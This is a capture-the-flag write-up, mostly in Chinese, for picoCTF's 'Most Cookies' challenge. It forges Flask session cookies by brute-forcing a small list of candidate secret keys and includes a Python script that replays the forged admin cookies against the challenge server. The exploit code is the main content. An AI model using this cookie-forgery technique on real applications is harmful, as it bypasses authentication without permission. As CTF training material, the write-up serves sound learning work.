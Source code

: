 # Most Cookies 15
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:44693/

# Explore
提示flask cookie，考虑伪造cookie，app.py列出了所有可能的keys：
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter",
                "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop",
                "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie",
                "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
用[flask的cookie伪造工具](https://github.com/noraj/flask-session-cookie-manager)解密现有cookie，得到cookie的结构
>$\>python flask_session_cookie_manager3.py decode -c "eyJ2ZXJ5X2F1dGgiOiJkcm9wIn0.YO0fNw.s0d6wdes88v_E2JodXrylMWa9Rw"  
b'{"very_auth":"drop"}'

用所有可能的密钥伪造admin的cookie：
>python flask_session_cookie_manager3.py encode -s "keys" -t "{'very_auth': 'admin'}"  

# Exploit
用所有组合跑一遍，得到flag
```python
import requests
import time

l = '''eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mNg.WWvJyGIFFiGJr90RFTdvFNa7Uac
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mNg.DQFI-a3sk3qUbWdDtNfC1w9vwUE
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mNw.sPkasj7E-hoEaWDtJkB-7TQgRbA
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mNw.Gz8TNdxkwJLOtU7maHxH95ZsreY
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mNw.98GbQY7HUbfpuXZIlqWQy0ED9Tc
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mNw.viaIJhS2kwZvZpj1C8iPAnelrWE
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mNw.tS4IefF_3dmXWlf3SHbpKys0QSg
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOA.0fGbPO628Y06Y9WIsjVqT_JLQAA
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOA.WT7i_DUgtUd_h1_e_ndZKDmylqQ
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOA.mkq9KrnfcwWk9iKLcsq_PAnBeLM
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOA.nLnjQUVhhmYxctu150UrXCoFTTQ
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOA.aVB1a55dWyOa6HxJQsmX_ThblcU
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOQ.8Kzswqe8cWRk4pXz27CHu54XFzI
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOQ.81FC_E8IFKGAM02x35tUTvycwfY
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOg.E20wJV-6N1E8iLPX0uagVAMSnus
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOw.XM64hKgPaGnSqRUHznppP1iKqjk
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOw.th9jE1s_bH5t-h2JTMONqioLgug
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOw.awlMEZcDUtcF_GB5s0DZeQkfERQ
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOw.EQKHBnx0j7H72iaggU8DrL-BT_o
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mOw.Bm6BDa9qWXKRoJ2tb6nmxD0AHCw
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mPA.73cg7lHIkmqIf7QowFhoi9uQC8w
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mPA._CdY6fdQGPwVDUr-XJhtMrH_PXw
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mPA.M7yQEpkRy7KSi_5Vki6gSDBGhBg
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mPA.qAN7lSBklkysCPpu6qbu0Ll1YLA
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mPA.X5Xuxy-Q39YQmxpLEPwqUHX0qr0
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mPQ.nFq3asKxMexSCyXlvCCASmHd2OI
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mPQ.N_yJEL53blPXlkwaLusjDKgdTvE
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YO0mPQ.gRlw80Df1h2vWDN5GO9y0vKan5s'''

for i in l.split("\n"):
    r = requests.get("http://mercury.picoctf.net:44693/display", headers={
        "Cookie": "session=" + i})
    if not "Welcome" in r.text:
        print(r.text)
        exit(0)
```